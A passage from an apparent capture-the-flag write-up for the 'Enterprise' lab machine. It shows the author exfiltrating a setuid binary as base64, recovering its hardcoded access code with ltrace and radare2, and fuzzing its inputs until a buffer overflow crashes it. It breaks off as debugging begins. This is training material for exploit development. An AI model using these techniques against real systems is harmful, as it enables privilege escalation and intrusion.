AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEAcAAMAGAAAAAAAAAQAA
AAEAAAAMAAAACAUAAA0AAACUDQAAGQAAAOQuAAAbAAAABAAAABoAAADoLgAAHAAAAAQAAAD1/v9v
rAEAAAUAAAAAAwAABgAAANABAAAKAAAA/wAAAAsAAAAQAAAAFQAAAAAAAAADAAAAADAAAAIAAABI
AAAAFAAAABEAAAAXAAAAwAQAABEAAABoBAAAEgAAAFgAAAATAAAACAAAAPv//28AAAAI/v//bygE
AAD///9vAQAAAPD//28ABAAA+v//bwQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACRDAAAAAAAAAAAAADwLgAAAAAAAAAAAABGBQAA
VgUAAGYFAAB2BQAAhgUAAJYFAACmBQAAtgUAAMYFAAAAAAAANDAAAEdDQzogKERlYmlhbiA2LjMu
MC0xNikgNi4zLjAgMjAxNzA0MjUAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFQBAAAAAAAAAwABAAAA
AABoAQAAAAAAAAMAAgAAAAAAiAEAAAAAAAADAAMAAAAAAKwBAAAAAAAAAwAEAAAAAADQAQAAAAAA
AAMABQAAAAAAAAMAAAAAAAADAAYAAAAAAAAEAAAAAAAAAwAHAAAAAAAoBAAAAAAAAAMACAAAAAAA
aAQAAAAAAAADAAkAAAAAAMAEAAAAAAAAAwAKAAAAAAAIBQAAAAAAAAMACwAAAAAAMAUAAAAAAAAD
AAwAAAAAANAFAAAAAAAAAwANAAAAAADgBQAAAAAAAAMADgAAAAAAlA0AAAAAAAADAA8AAAAAAKgN
AAAAAAAAAwAQAAAAAABgEQAAAAAAAAMAEQAAAAAAvBEAAAAAAAADABIAAAAAAOQuAAAAAAAAAwAT
AAAAAADoLgAAAAAAAAMAFAAAAAAA7C4AAAAAAAADABUAAAAAAPAuAAAAAAAAAwAWAAAAAADgLwAA
AAAAAAMAFwAAAAAAADAAAAAAAAADABgAAAAAADAwAAAAAAAAAwAZAAAAAAA4MAAAAAAAAAMAGgAA
AAAAAAAAAAAAAAADABsAAQAAAAAAAAAAAAAABADx/wwAAADsLgAAAAAAAAEAFQAZAAAAMAYAAAAA
AAACAA4AGwAAAHAGAAAAAAAAAgAOAC4AAADABgAAAAAAAAIADgBEAAAAODAAAAEAAAABABoAUwAA
AOguAAAAAAAAAQAUAHoAAAAQBwAAAAAAAAIADgCGAAAA5C4AAAAAAAABABMApQAAAAAAAAAAAAAA
BADx/60AAABeCwAAAAAAAAAADgCxAAAAgAkAAAAAAAAAAA4AtQAAAO8JAAAAAAAAAAAOALkAAABe
CgAAAAAAAAAADgC9AAAAjgoAAAAAAAAAAA4AwQAAAPoKAAAAAAAAAAAOAMYAAAAnCwAAAAAAAAAA
DgDLAAAAVAsAAAAAAAAAAA4AAQAAAAAAAAAAAAAABADx/9AAAABMEwAAAAAAAAEAEgDeAAAA7C4A
AAAAAAABABUAAAAAAAAAAAAAAAAABADx/+oAAADoLgAAAAAAAAAAEwD7AAAA8C4AAAAAAAABABYA
BAEAAOQuAAAAAAAAAAATABcBAABgEQAAAAAAAAAAEQAqAQAAADAAAAAAAAABABgAQAEAAJANAAAC
AAAAEgAOAFABAAAAAAAAAAAAABIAAABiAQAAAAAAAAAAAAASAAAAdwEAAAAAAAAAAAAAIAAAAJMB
AAAgBgAABAAAABICDgBDAgAAMDAAAAAAAAAgABkAqQEAAAAAAAAAAAAAEgAAALsBAACoCwAA6QAA
ABIADgDGAQAAAAAAAAAAAAASAAAA2AEAANQHAACKAAAAEgAOAOsBAAAAAAAAAAAAABIAAAD8AQAA
ODAAAAAAAAAQABkAAwIAAFAHAACEAAAAEgAOAEoBAACUDQAAAAAAABIADwAPAgAATAcAAAAAAAAS
Ag4AJQIAAAAAAAAAAAAAIgAAAEECAAAwMAAAAAAAABAAGQBOAgAAAAAAAAAAAAASAAAAXgIAAAAA
AAAAAAAAIAAAAG0CAAAAAAAAAAAAABIAAAB9AgAANDAAAAAAAAARAhkAigIAAGoLAAA+AAAAEgAO
AJECAACsDQAABAAAABEAEACgAgAAAAAAAAAAAAASAAAAvQIAADANAABdAAAAEgAOAM0CAAAAAAAA
AAAAABEAAAD2AAAAPDAAAAAAAAAQABoA3gIAAF4IAAAMAwAAEgAOAEcCAADgBQAAAAAAABIADgDo
AgAAqA0AAAQAAAARABAA7wIAAAAAAAAAAAAAEQAAAAEDAAA4MAAAAAAAABAAGgANAwAAkQwAAJEA
AAASAA4AEgMAAAAAAAAAAAAAIAAAACYDAAAAAAAAAAAAABIAAABAAwAAODAAAAAAAAARAhkATAMA
AAAAAAAAAAAAIAAAAMcCAAAIBQAAAAAAABIACwAAY3J0c3R1ZmYuYwBfX0pDUl9MSVNUX18AZGVy
ZWdpc3Rlcl90bV9jbG9uZXMAX19kb19nbG9iYWxfZHRvcnNfYXV4AGNvbXBsZXRlZC42NTc4AF9f
ZG9fZ2xvYmFsX2R0b3JzX2F1eF9maW5pX2FycmF5X2VudHJ5AGZyYW1lX2R1bW15AF9fZnJhbWVf
ZHVtbXlfaW5pdF9hcnJheV9lbnRyeQBsY2Fycy5jAC5MNAAuTDUALkw3AC5MOAAuTDkALkwxMAAu
TDExAC5MMTIAX19GUkFNRV9FTkRfXwBfX0pDUl9FTkRfXwBfX2luaXRfYXJyYXlfZW5kAF9EWU5B
TUlDAF9faW5pdF9hcnJheV9zdGFydABfX0dOVV9FSF9GUkFNRV9IRFIAX0dMT0JBTF9PRkZTRVRf
VEFCTEVfAF9fbGliY19jc3VfZmluaQBzdHJjbXBAQEdMSUJDXzIuMABzZXRyZXN1aWRAQEdMSUJD
XzIuMABfSVRNX2RlcmVnaXN0ZXJUTUNsb25lVGFibGUAX194ODYuZ2V0X3BjX3RodW5rLmJ4AHBy
aW50ZkBAR0xJQkNfMi4wAGJyaWRnZUF1dGgAZmZsdXNoQEBHTElCQ18yLjAAZGlzYWJsZUZvcmNl
ZmllbGRzAGZnZXRzQEBHTElCQ18yLjAAX2VkYXRhAHN0YXJ0U2NyZWVuAF9feDg2LmdldF9wY190
aHVuay5keABfX2N4YV9maW5hbGl6ZUBAR0xJQkNfMi4xLjMAX19kYXRhX3N0YXJ0AHB1dHNAQEdM
SUJDXzIuMABfX2dtb25fc3RhcnRfXwBleGl0QEBHTElCQ18yLjAAX19kc29faGFuZGxlAHVuYWJs
ZQBfSU9fc3RkaW5fdXNlZABfX2xpYmNfc3RhcnRfbWFpbkBAR0xJQkNfMi4wAF9fbGliY19jc3Vf
aW5pdABzdGRpbkBAR0xJQkNfMi4wAG1haW5fbWVudQBfZnBfaHcAc3Rkb3V0QEBHTElCQ18yLjAA
X19ic3Nfc3RhcnQAbWFpbgBfSnZfUmVnaXN0ZXJDbGFzc2VzAF9faXNvYzk5X3NjYW5mQEBHTElC
Q18yLjcAX19UTUNfRU5EX18AX0lUTV9yZWdpc3RlclRNQ2xvbmVUYWJsZQAALnN5bXRhYgAuc3Ry
dGFiAC5zaHN0cnRhYgAuaW50ZXJwAC5ub3RlLkFCSS10YWcALm5vdGUuZ251LmJ1aWxkLWlkAC5n
bnUuaGFzaAAuZHluc3ltAC5keW5zdHIALmdudS52ZXJzaW9uAC5nbnUudmVyc2lvbl9yAC5yZWwu
ZHluAC5yZWwucGx0AC5pbml0AC5wbHQuZ290AC50ZXh0AC5maW5pAC5yb2RhdGEALmVoX2ZyYW1l
X2hkcgAuZWhfZnJhbWUALmluaXRfYXJyYXkALmZpbmlfYXJyYXkALmpjcgAuZHluYW1pYwAuZ290
LnBsdAAuZGF0YQAuYnNzAC5jb21tZW50AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAbAAAAAQAAAAIAAABUAQAAVAEAABMAAAAAAAAAAAAAAAEAAAAAAAAAIwAAAAcAAAAC
AAAAaAEAAGgBAAAgAAAAAAAAAAAAAAAEAAAAAAAAADEAAAAHAAAAAgAAAIgBAACIAQAAJAAAAAAA
AAAAAAAABAAAAAAAAABEAAAA9v//bwIAAACsAQAArAEAACQAAAAFAAAAAAAAAAQAAAAEAAAATgAA
AAsAAAACAAAA0AEAANABAAAwAQAABgAAAAEAAAAEAAAAEAAAAFYAAAADAAAAAgAAAAADAAAAAwAA
/wAAAAAAAAAAAAAAAQAAAAAAAABeAAAA////bwIAAAAABAAAAAQAACYAAAAFAAAAAAAAAAIAAAAC
AAAAawAAAP7//28CAAAAKAQAACgEAABAAAAABgAAAAEAAAAEAAAAAAAAAHoAAAAJAAAAAgAAAGgE
AABoBAAAWAAAAAUAAAAAAAAABAAAAAgAAACDAAAACQAAAEIAAADABAAAwAQAAEgAAAAFAAAAGAAA
AAQAAAAIAAAAjAAAAAEAAAAGAAAACAUAAAgFAAAjAAAAAAAAAAAAAAAEAAAAAAAAAIcAAAABAAAA
BgAAADAFAAAwBQAAoAAAAAAAAAAAAAAAEAAAAAQAAACSAAAAAQAAAAYAAADQBQAA0AUAABAAAAAA
AAAAAAAAAAgAAAAAAAAAmwAAAAEAAAAGAAAA4AUAAOAFAACyBwAAAAAAAAAAAAAQAAAAAAAAAKEA
AAABAAAABgAAAJQNAACUDQAAFAAAAAAAAAAAAAAABAAAAAAAAACnAAAAAQAAAAIAAACoDQAAqA0A
ALYDAAAAAAAAAAAAAAQAAAAAAAAArwAAAAEAAAACAAAAYBEAAGARAABcAAAAAAAAAAAAAAAEAAAA
AAAAAL0AAAABAAAAAgAAALwRAAC8EQAAlAEAAAAAAAAAAAAABAAAAAAAAADHAAAADgAAAAMAAADk
LgAA5B4AAAQAAAAAAAAAAAAAAAQAAAAEAAAA0wAAAA8AAAADAAAA6C4AAOgeAAAEAAAAAAAAAAAA
AAAEAAAABAAAAN8AAAABAAAAAwAAAOwuAADsHgAABAAAAAAAAAAAAAAABAAAAAAAAADkAAAABgAA
AAMAAADwLgAA8B4AAPAAAAAGAAAAAAAAAAQAAAAIAAAAlgAAAAEAAAADAAAA4C8AAOAfAAAgAAAA
AAAAAAAAAAAEAAAABAAAAO0AAAABAAAAAwAAAAAwAAAAIAAAMAAAAAAAAAAAAAAABAAAAAQAAAD2
AAAAAQAAAAMAAAAwMAAAMCAAAAgAAAAAAAAAAAAAAAQAAAAAAAAA/AAAAAgAAAADAAAAODAAADgg
AAAEAAAAAAAAAAAAAAABAAAAAAAAAAEBAAABAAAAMAAAAAAAAAA4IAAAJgAAAAAAAAAAAAAAAQAA
AAEAAAABAAAAAgAAAAAAAAAAAAAAYCAAANAFAAAdAAAANwAAAAQAAAAQAAAACQAAAAMAAAAAAAAA
AAAAADAmAABmAwAAAAAAAAAAAAABAAAAAAAAABEAAAADAAAAAAAAAAAAAACWKQAACgEAAAAAAAAA
AAAAAQAAAAAAAAA=
www-data@enterprise:/bin$
www-data@enterprise:/bin$ md5sum lcars
cf72dd251d6fee25e638e9b8be1f8dd3  lcars
www-data@enterprise:/bin$
```

```sh
root@kali:~/enterprise# nano lcars.b64
root@kali:~/enterprise# base64 -d lcars.b64 > lcars.bin
root@kali:~/enterprise# chmod +x lcars.bin
root@kali:~/enterprise# md5sum lcars.bin
cf72dd251d6fee25e638e9b8be1f8dd3  lcars.bin
root@kali:~/enterprise#
```

###### Buffer Overflow Exploitation

```sh
u32@u32-vm:~/Desktop$ ./lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
test

Invalid Code
Terminating Console

u32@u32-vm:~/Desktop$
```

```sh
u32@u32-vm:~/Desktop$ ltrace ./lcars
__libc_start_main(0x46ec91, 1, 0xbf8197e4, 0x46ed30 <unfinished ...>
setresuid(0, 0, 0, 0x46eca8)                                                                                                  = -1
puts(""
)                                                                                                                      = 1
puts("                 _______ _______"...                 _______ _______  ______ _______
)                                                                                   = 49
puts("          |      |       |_____|"...          |      |       |_____| |_____/ |______
)                                                                                   = 49
puts("          |_____ |_____  |     |"...          |_____ |_____  |     | |    \_ ______|
)                                                                                   = 49
puts(""
)                                                                                                                      = 1
puts("Welcome to the Library Computer "...Welcome to the Library Computer Access and Retrieval System

)                                                                                   = 61
puts("Enter Bridge Access Code: "Enter Bridge Access Code:
)                                                                                            = 27
fflush(0xb7f7fd60)                                                                                                            = 0
fgets(test
"test\n", 9, 0xb7f7f5a0)                                                                                                = 0xbf819727
strcmp("test\n", "picarda1")                                                                                                  = 1
puts("\nInvalid Code\nTerminating Consol"...
Invalid Code
Terminating Console

)                                                                                 = 35
fflush(0xb7f7fd60)                                                                                                            = 0
exit(0 <no return ...>
+++ exited (status 0) +++
u32@u32-vm:~/Desktop$
```

```sh
u32@u32-vm:~/Desktop$ git clone https://github.com/radare/radare2.git
u32@u32-vm:~/Desktop/radare2$ cd radare2/
u32@u32-vm:~/Desktop/radare2$ sys/install.sh
```

```sh
u32@u32-vm:~/Desktop$ r2 ./lcars
 -- Remember that word: C H A I R
[0x000005e0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[0x000005e0]> afl
0x00000000   54 1288 -> 1272 sym.imp.__cxa_finalize
0x00000508    3 35           sym._init
0x00000540    1 6            sym.imp.strcmp
0x00000550    1 6            sym.imp.setresuid
0x00000560    1 6            sym.imp.printf
0x00000570    1 6            sym.imp.fflush
0x00000580    1 6            sym.imp.fgets
0x00000590    1 6            sym.imp.puts
0x000005a0    1 6            sym.imp.exit
0x000005b0    1 6            sym.imp.__libc_start_main
0x000005c0    1 6            sym.imp.__isoc99_scanf
0x000005d0    1 6            fcn.000005d0
0x000005d8    1 6            fcn.000005d8
0x000005e0    1 49           entry0
0x00000612    1 4            fcn.00000612
0x00000620    1 4            sym.__x86.get_pc_thunk.bx
0x00000630    4 55           sym.deregister_tm_clones
0x00000670    4 71           sym.register_tm_clones
0x000006c0    5 71           sym.__do_global_dtors_aux
0x00000710    4 60   -> 56   entry1.init
0x0000074c    1 4            sym.__x86.get_pc_thunk.dx
0x00000750    1 132          sym.startScreen
0x000007d4    1 138          sym.disableForcefields
0x0000085e    2 290          sym.main_menu
0x00000b6a    1 62           sym.unable
0x00000ba8    4 233          sym.bridgeAuth
0x00000c91    1 145          sym.main
0x00000d30    4 93           sym.__libc_csu_init
0x00000d90    1 2            sym.__libc_csu_fini
0x00000d94    1 20           sym._fini
[0x000005e0]> s sym.bridgeAuth
[0x00000ba8]> pdf
/ (fcn) sym.bridgeAuth 233
|   sym.bridgeAuth (int arg_8h);
|           ; var int local_2eh @ ebp-0x2e
|           ; var int local_10h @ ebp-0x10
|           ; var int local_ch @ ebp-0xc
|           ; arg int arg_8h @ ebp+0x8
|           ; CALL XREF from 0x00000d0b (sym.main)
|           0x00000ba8      55             push ebp
|           0x00000ba9      89e5           mov ebp, esp
|           0x00000bab      53             push ebx
|           0x00000bac      83ec34         sub esp, 0x34               ; '4'
|           0x00000baf      e86cfaffff     call sym.__x86.get_pc_thunk.bx
|           0x00000bb4      81c34c240000   add ebx, 0x244c
|           0x00000bba      c745f4000000.  mov dword [local_ch], 0
|           0x00000bc1      8b45f4         mov eax, dword [local_ch]
|           0x00000bc4      8d5001         lea edx, [eax + 1]
|           0x00000bc7      8955f4         mov dword [local_ch], edx
|           0x00000bca      c64405d270     mov byte [ebp + eax - 0x2e], 0x70 ; 'p'
|           0x00000bcf      8b45f4         mov eax, dword [local_ch]
|           0x00000bd2      8d5001         lea edx, [eax + 1]
|           0x00000bd5      8955f4         mov dword [local_ch], edx
|           0x00000bd8      c64405d269     mov byte [ebp + eax - 0x2e], 0x69 ; 'i'
|           0x00000bdd      8b45f4         mov eax, dword [local_ch]
|           0x00000be0      8d5001         lea edx, [eax + 1]
|           0x00000be3      8955f4         mov dword [local_ch], edx
|           0x00000be6      c64405d263     mov byte [ebp + eax - 0x2e], 0x63 ; 'c'
|           0x00000beb      8b45f4         mov eax, dword [local_ch]
|           0x00000bee      8d5001         lea edx, [eax + 1]
|           0x00000bf1      8955f4         mov dword [local_ch], edx
|           0x00000bf4      c64405d261     mov byte [ebp + eax - 0x2e], 0x61 ; 'a'
|           0x00000bf9      8b45f4         mov eax, dword [local_ch]
|           0x00000bfc      8d5001         lea edx, [eax + 1]
|           0x00000bff      8955f4         mov dword [local_ch], edx
|           0x00000c02      c64405d272     mov byte [ebp + eax - 0x2e], 0x72 ; 'r'
|           0x00000c07      8b45f4         mov eax, dword [local_ch]
|           0x00000c0a      8d5001         lea edx, [eax + 1]
|           0x00000c0d      8955f4         mov dword [local_ch], edx
|           0x00000c10      c64405d264     mov byte [ebp + eax - 0x2e], 0x64 ; 'd'
|           0x00000c15      8b45f4         mov eax, dword [local_ch]
|           0x00000c18      8d5001         lea edx, [eax + 1]
|           0x00000c1b      8955f4         mov dword [local_ch], edx
|           0x00000c1e      c64405d261     mov byte [ebp + eax - 0x2e], 0x61 ; 'a'
|           0x00000c23      8b45f4         mov eax, dword [local_ch]
|           0x00000c26      8d5001         lea edx, [eax + 1]
|           0x00000c29      8955f4         mov dword [local_ch], edx
|           0x00000c2c      c64405d231     mov byte [ebp + eax - 0x2e], 0x31 ; '1'
|           0x00000c31      8b45f4         mov eax, dword [local_ch]
|           0x00000c34      8d5001         lea edx, [eax + 1]
|           0x00000c37      8955f4         mov dword [local_ch], edx
|           0x00000c3a      c64405d200     mov byte [ebp + eax - 0x2e], 0
|           0x00000c3f      83ec08         sub esp, 8
|           0x00000c42      8d45d2         lea eax, [local_2eh]
|           0x00000c45      50             push eax
|           0x00000c46      ff7508         push dword [arg_8h]
|           0x00000c49      e8f2f8ffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
|           0x00000c4e      83c410         add esp, 0x10
|           0x00000c51      8945f0         mov dword [local_10h], eax
|           0x00000c54      837df000       cmp dword [local_10h], 0
|       ,=< 0x00000c58      7507           jne 0xc61
|       |   0x00000c5a      e8fffbffff     call sym.main_menu
|      ,==< 0x00000c5f      eb12           jmp 0xc73
|      ||   ; CODE XREF from 0x00000c58 (sym.bridgeAuth)
|      |`-> 0x00000c61      83ec0c         sub esp, 0xc
|      |    0x00000c64      8d8320e1ffff   lea eax, [ebx - 0x1ee0]
|      |    0x00000c6a      50             push eax
|      |    0x00000c6b      e820f9ffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x00000c70      83c410         add esp, 0x10
|      |    ; CODE XREF from 0x00000c5f (sym.bridgeAuth)
|      `--> 0x00000c73      8b83f0ffffff   mov eax, dword [ebx - 0x10]
|           0x00000c79      8b00           mov eax, dword [eax]
|           0x00000c7b      83ec0c         sub esp, 0xc
|           0x00000c7e      50             push eax
|           0x00000c7f      e8ecf8ffff     call sym.imp.fflush         ; int fflush(FILE *stream)
|           0x00000c84      83c410         add esp, 0x10
|           0x00000c87      83ec0c         sub esp, 0xc
|           0x00000c8a      6a00           push 0
\           0x00000c8c      e80ff9ffff     call sym.imp.exit           ; void exit(int status)
[0x00000ba8]> VV
```


```sh
u32@u32-vm:~/Desktop$ ./lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
picarda1

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu:

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:
```

```sh
root@kali:~/enterprise/binary# python -c "print 'A' * 500"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
root@kali:~/enterprise/binary#
```

```sh
u32@u32-vm:~/Desktop$ ./lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
picarda1

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu:

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:
1
Enter System Name and Warp Speed:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Unable to comply. Antimatter injectors are not responding


                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu:

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:
3

Secondary Routines not implemented
Returning to Main Menu


                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu:

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Secondary Routines not implemented
Terminating Console

Segmentation fault (core dumped)
u32@u32-vm:~/Desktop$
```

```sh
u32@u32-vm:~/Desktop$ ./lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
picarda1

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu:

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:
4
Disable Security Force Fields
Enter Security Override:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
u32@u32-vm:~/Desktop$
```

```sh
u32@u32-vm:~/Desktop$ gdb ./lcars -q
Reading symbols from ./lcars...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/u32/Desktop/lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
picarda1

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu:

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:
4
Disable Security Force Fields
Enter Security Override:
